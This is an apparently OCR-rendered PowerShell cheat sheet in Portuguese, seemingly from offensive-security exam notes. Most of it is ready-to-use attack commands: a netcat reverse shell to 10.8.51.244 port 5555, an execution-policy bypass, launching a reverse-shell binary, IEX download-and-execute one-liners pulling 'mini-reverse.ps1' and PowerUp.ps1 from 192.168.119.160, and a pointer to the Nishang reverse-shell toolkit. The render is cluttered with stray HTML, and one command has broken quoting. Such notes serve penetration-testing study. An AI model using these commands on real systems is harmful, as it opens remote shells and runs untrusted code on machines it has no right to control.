 <div class="page">

# POWERSHELL

**

### EXECUTION

---

### POLICY

**


| 1 | 3 |   |   |   |   |   |   |
| --- | --- | --- | --- | --- | --- | --- | --- |
|   |   |   |   |   |   |   |   |
|   |   |   |   |   |   |   |   |
|   |   |   |   |   |   |   |   |
|   |   |   |   |   |   |   |   |
|   |   |   |   |   |   |   |   |



`<span style="background-color:#0000ff;">PS C:\</span>``<span style="background-color:#0000ff;">users</span>``<span style="background-color:#0000ff;">\</span>``<span style="background-color:#0000ff;">offsec</span>``<span style="background-color:#0000ff;">> Set-</span>``<span style="background-color:#0000ff;">ExecutionPolicy</span>`` <span style="background-color:#0000ff;">-Scope</span> ``<span style="background-color:#0000ff;">CurrentUser</span>`` <span style="background-color:#0000ff;">-</span>``<span style="background-color:#0000ff;">ExecutionPolicy</span>`` <span style="background-color:#0000ff;"></span> ``<span style="background-color:#0000ff;">UnRestricted</span>`

**

### EXECUTAR COMANDOS DE

---

### CMD

**

`<span style="background-color:#0000ff;">cmd</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>``<span style="background-color:#0000ff;">/c</span>``<span style="background-color:#0000ff;">nc</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>``<span style="background-color:#0000ff;">10.8.51.244 5555 -e</span>``<span style="background-color:#0000ff;">cmd</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>`` <span style="background-color:#0000ff;">/w

PS C:\></span> ``<span style="background-color:#0000ff;">cmd</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>`` <span style="background-color:#0000ff;">/c</span> ``<span style="background-color:#0000ff;">dir</span>`` <span style="background-color:#0000ff;">/w

PS C:\></span> ``<span style="background-color:#0000ff;">cmd</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>`` <span style="background-color:#0000ff;">--% /c</span> ``<span style="background-color:#0000ff;">dir</span>`` <span style="background-color:#0000ff;">/w

PS C:\></span> ``<span style="background-color:#0000ff;">cmd</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>`` <span style="background-color:#0000ff;"></span> ``<span style="color:#117d11;background-color:#0000ff;">--%</span>`` <span style="background-color:#0000ff;"></span> ``<span style="color:#117d11;background-color:#0000ff;">/c</span> ``<span style="color:#117d11;background-color:#0000ff;">dir</span>`` <span style="color:#117d11;background-color:#0000ff;">%</span>``<span style="color:#117d11;background-color:#0000ff;">WINDIR</span>``<span style="color:#117d11;background-color:#0000ff;">% /w</span>``<span style="background-color:#0000ff;"></span>`

**

### INICIAR

---

### EXECUTAVEIS

**

`<span style="background-color:#0000ff;">powershell</span>`` <span style="background-color:#0000ff;"></span> ``<span style="background-color:#0000ff;">Start</span>``<span style="background-color:#0000ff;">-</span>``<span style="background-color:#0000ff;">Process</span>`` <span style="background-color:#0000ff;"></span> ``<span style="background-color:#0000ff;">rev5555</span>``<span style="background-color:#0000ff;">.</span>``<span style="background-color:#0000ff;">exe</span>`

**

### DOWNLOAD

---

### AND

---

### EXECUTE

**

`<span style="background-color:#0000ff;">powershell</span>`` <span style="background-color:#0000ff;"></span> ``<span style="background-color:#0000ff;">IEX</span>`` <span style="background-color:#0000ff;">(</span>``<span style="background-color:#0000ff;">New</span>``<span style="background-color:#0000ff;">-</span>``<span style="background-color:#0000ff;">Object</span>`` <span style="background-color:#0000ff;">Net.</span>``<span style="background-color:#0000ff;">WebClient</span>``<span style="background-color:#0000ff;">).</span>``<span style="background-color:#0000ff;">DownloadString</span>``<span style="background-color:#0000ff;">('</span>`[http://192.168.119.160/mini-reverse.ps1')](http://192.168.119.160/mini-reverse.ps1'))
`<span style="background-color:#0000ff;">powershell -nop -c "IEX("New-Object Net.WebClient).DownloadString('</span>`[http://192.168.119.160/](http://192.168.119.160/mini-reverse.ps1'))`<span style="background-color:#0000ff;">PowerUp.ps1'; Invoke-AllChecks"</span> ``<span style="color:#ffa500;background-color:#0000ff;"></span>`**`<span style="color:#ffa500;background-color:#0000ff;">;?</span>`**

**

### Nishang

**- REVERSE POWERSHELL

[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

</div>
